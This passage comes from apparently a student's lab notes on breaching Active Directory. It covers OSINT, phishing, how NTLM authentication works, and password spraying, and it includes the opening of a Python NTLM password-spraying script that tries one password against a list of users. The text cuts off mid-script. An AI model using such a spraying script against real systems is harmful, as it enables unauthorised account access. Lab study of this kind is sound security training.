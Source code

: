 # Breaching Active Directory - Medium

1. [OSINT and Phishing](#osint-and-phishing)
2. [NTLM Authenticated Services](#ntlm-authenticated-services)
3. [LDAP Bind Credentials](#ldap-bind-credentials)
4. [Authentication Relays](#authentication-relays)
5. [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)
6. [Configuration Files](#configuration-files)

## OSINT and Phishing

* OSINT - used to discover info that has been publicly disclosed; we can check for the same on websites such as [DeHashed](https://www.dehashed.com/) and [HaveIBeenPwned](https://haveibeenpwned.com/).

* Phishing - baits users to either provide creds on malicious webpages or ask them to run malicious apps containing RATs (remote access trojans).

```markdown
1. What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach? - HaveIBeenPwned
```

## NTLM Authenticated Services

* NTLM (New Technology LAN Manager) - suite of security protocols used to authenticate user identities in AD; it uses a challenge-response-based scheme called NetNTLM (Windows authentication).

* Under NTLM, all authentication material is forwarded to a DC (Domain Controller) in the form of a challenge, and if completed successfully, the user gets authenticated; the app is authenticating on behalf of the user.

* This prevents the app from storing AD creds, which should only be stored on a DC.

* For login attacks, a password spraying attack can be performed, which consists of using one password and trying to authenticate with all the usernames acquired; the other way around can trigger the account lockout mechanism.

* We have been given a custom password-spraying script to be executed against a hosted web app:

```python
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
```